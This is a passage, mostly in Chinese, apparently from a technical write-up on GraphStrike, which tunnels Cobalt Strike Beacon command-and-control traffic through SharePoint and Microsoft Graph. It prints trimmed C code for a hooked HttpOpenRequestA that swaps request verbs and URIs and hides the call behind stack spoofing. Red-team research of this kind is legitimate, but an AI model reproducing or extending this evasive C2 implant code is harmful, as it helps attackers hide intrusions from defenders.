 这两个块执行类似的操作，都是通过使用前面讨论过的值来组合文件名，从而在 SharePoint 中创建新文件。使用 "MakeWebRequest" 发送请求后，新创建文件的 SharePoint ID 将被解析，以用于 Beacon 的所有后续请求。firstGet "和"firstPost " 布尔值控制着这些代码块是否运行，并且在运行时从 TRUE 切换到 FALSE，这样对 HttpOpenRequestA\_Hook 的后续调用就不会导致创建额外的文件。

# 修改 API 调用参数和非 GraphStrike Beacon

本节内容简短，但却非常重要。我曾多次提到，AceLdr 实现的 IAT 挂钩功能使我们有能力调整和摆弄 Beacon 发送到挂钩 API 的参数。下面的代码片段再次来自 HttpOpenRequestA\_Hook 函数，从中可以看到这一功能的实现和影响：

```plain
SECTION( D ) HINTERNET HttpOpenRequestA_Hook( HINTERNET hInternet, 
                                                LPCSTR lpszVerb, 
                                                LPCSTR lpszObjectName, 
                                                LPCSTR lpszVersion, 
                                                LPCSTR lpszReferrer, 
                                                LPCSTR *lplpszAcceptTypes, 
                                                DWORD dwFlags, 
                                                DWORD_PTR dwContext )
{
    HINTERNET       hResult = INVALID_HANDLE_VALUE;

    ... Trimmed for Brevity ...

    // Only run the following if this is a GraphStrike Beacon
    if (pMemAddrs->graphStrike)

        // Determine whether this call to HttpOpenRequestA is for a http-get or http-post request
        if (pMemAddrs->Api.msvcrt.strcmp(lpszVerb, C_PTR ( OFFSET ( "GET" ) ) ) == 0)
            pMemAddrs->activeGet = TRUE;
        else
            pMemAddrs->activeGet = FALSE;

        ... Trimmed for Brevity ...

        // Set verb and uri to be used with HttpOpenRequest call.
        // Must be done here so that httpGetUri + httpPostUri are populated first
        if ( pMemAddrs->activeGet)
        {            
            verb = GET_VERB;
            uri = pMemAddrs->httpGetUri;
        }
        else
        {
            verb = PUT_VERB;
            uri = pMemAddrs->httpPostUri;
        }

        // Finally send request.
        hResult =  ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA,
                                        pMemAddrs->Api.net.hNet, 
                                        pMemAddrs->Api.net.size, 
                                        hInternet, 
                                        verb, 
                                        uri, 
                                        C_PTR( lpszVersion ), 
                                        C_PTR( lpszReferrer ), 
                                        C_PTR( lplpszAcceptTypes ), 
                                        C_PTR( U_PTR( dwFlags ) ), 
                                        C_PTR( U_PTR( dwContext ) ) );
    }

    // If not a GraphStrike Beacon, make a normal call to HttpOpenRequestA
    else
```